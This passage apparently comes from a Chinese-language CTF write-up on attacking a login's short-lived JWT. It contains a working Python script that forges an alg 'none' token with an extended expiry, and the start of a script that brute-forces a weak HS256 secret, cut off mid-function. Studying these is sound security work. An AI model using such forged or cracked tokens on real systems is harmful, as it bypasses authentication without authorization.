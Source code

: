 看到这就能明白, 登录发的 JWT 有效时间只有两秒; 

### JWT 尝试利用

首先想到的可能存在 JWT 漏洞, JWT 无非就几种思路:

#### 空算法

指定 JWT 中的 alg 为 `none` 是一种经典的攻击, 如果服务器支持空算法, 那么就会使得签名认证失效, 附上一段简单的脚本:

```python
#!/usr/bin/env python
# gen_jwt.py

import jwt

ALG = 'none'
PAYLOAD = {
    "username": "AzureDiamond",
    "token": "e5bbca86d4a6a55fb0ce629eb52bbaa",
    "iat": 1759215905,
    "exp": 1859215907
}

SECRET_KEY = ''  # No secret key needed for 'None' algorithm

def generate_jwt(secret_key, payload, alg):
    token = jwt.encode(payload=payload, key=secret_key, algorithm=alg)
    return token

if __name__ == "__main__":
    token = generate_jwt(SECRET_KEY, PAYLOAD, ALG)
    print(f"Generated JWT: {token}")
```

#### 弱密钥

注意 JWT 使用得比较普遍的算法是 HS256, RSA 等, 其中 HS256 使用的是对称加密, **在这一前提下**, 如果秘钥设置简单, 则存在爆破空间, 简单脚本:

```python
#! /usr/bin/env python
# jwt_crack.py

import jwt
import itertools
import string

ALG = 'HS256'
PAYLOAD = {
    "username": "AzureDiamond",
    "token": "e5bbca86d4a6a55fb0ce629eb52bbaa",
    "iat": 1759215905,
    "exp": 1759215907
}

SIGNATURE = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZTViYmNhODZkNGE2YTU1ZmIwY2U2MjllYjUyYmJhYSIsImlhdCI6MTc1OTIxNTkwNSwiZXhwIjoxNzU5MjE1OTA3fQ.8L9yJmZjjqbzOGyGAE2JfmLI4x5H0NnuCuTsU0mdkxc'

def generate_jwt(secret_key, payload, alg):
    token = jwt.encode(payload=payload, key=secret_key, algorithm=alg)
    return token

def crack_jwt(signature, payload, alg, charset, max_length):
    count = 0
    for length in range(1, max_length + 1):
```